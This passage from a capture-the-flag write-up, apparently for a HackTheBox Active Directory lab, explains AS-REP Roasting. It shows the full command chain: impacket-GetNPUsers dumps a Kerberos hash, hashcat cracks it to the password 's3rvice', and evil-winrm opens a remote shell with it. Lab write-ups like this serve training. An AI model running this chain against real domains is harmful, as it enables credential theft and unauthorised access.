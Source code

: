 ## Foothold

### AS-REP Roasting

> **Reference**: [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
>
> ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.
>
> The main **requirements** for this attack are:
>
> - **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
> - **Connection to the Domain Controller (DC)**: Attackers need access to the DC to send requests and receive encrypted messages.
> - **Optional domain account**: Having a domain account allows attackers to more efficiently identify vulnerable users through LDAP queries. Without such an account, attackers must guess usernames.

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking by hashcat:

```console
$ impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt -dc-ip $IP
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b66dd270441a3bbbe4f3fd4c647c4481$5fdd328d3a8c8725252451d9621ad7488f544ca8792d74d82da506951c0b300c1a8a398d69ef19586b787add94079841ff02d654e44db5649eb5338b97d91ad5bb2ca1eb12bbd599b9b1e2c5f6a6ec2815ad3313168bf0c410dc3bd3da563e5a6e9306413b7fef47b892bbba67ee36426d2d7ba803c28f73bd1c2076e5e68fc4c8dcda91fc7b8510d4cb5a948cfe9810ff9fc6b79ba30a0e4374f10be1f160945c2596ba4468d33c10bf7a77f9a8851c27fce51ce5f37ef1f0b3d5a2d65b3bbff6467db6352e37ae1630c8a901ef3700fca892a190dc9b66c25759cb92521c3c95d5770ec69b
--------------------------------------------------------------------------------
$ hashcat -m 18200 -a 0 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --show
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b66dd270441a3bbbe4f3fd4c647c4481$5fdd328d3a8c8725252451d9621ad7488f544ca8792d74d82da506951c0b300c1a8a398d69ef19586b787add94079841ff02d654e44db5649eb5338b97d91ad5bb2ca1eb12bbd599b9b1e2c5f6a6ec2815ad3313168bf0c410dc3bd3da563e5a6e9306413b7fef47b892bbba67ee36426d2d7ba803c28f73bd1c2076e5e68fc4c8dcda91fc7b8510d4cb5a948cfe9810ff9fc6b79ba30a0e4374f10be1f160945c2596ba4468d33c10bf7a77f9a8851c27fce51ce5f37ef1f0b3d5a2d65b3bbff6467db6352e37ae1630c8a901ef3700fca892a190dc9b66c25759cb92521c3c95d5770ec69b:s3rvice

$ evil-winrm -i $IP -u svc-alfresco -p 's3rvice'
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

## Privilege Escalation
